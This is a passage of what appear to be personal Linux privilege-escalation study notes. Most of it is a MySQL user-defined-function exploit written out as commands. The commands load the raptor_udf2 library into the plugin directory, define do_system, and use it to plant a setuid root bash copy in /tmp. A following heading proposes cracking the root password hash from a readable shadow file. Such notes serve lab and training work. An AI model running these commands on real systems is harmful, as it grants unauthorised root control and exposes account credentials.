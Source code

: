 

create a new database and load file that we compiled and execute it to give us a setuid bash in temp folder

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```





### weak file permission



#### readable shadow

we can read contents of shadow folder lets try to crack root users hash

![image-20200814205548752](linuxPrivesc.assets/image-20200814205548752.png)


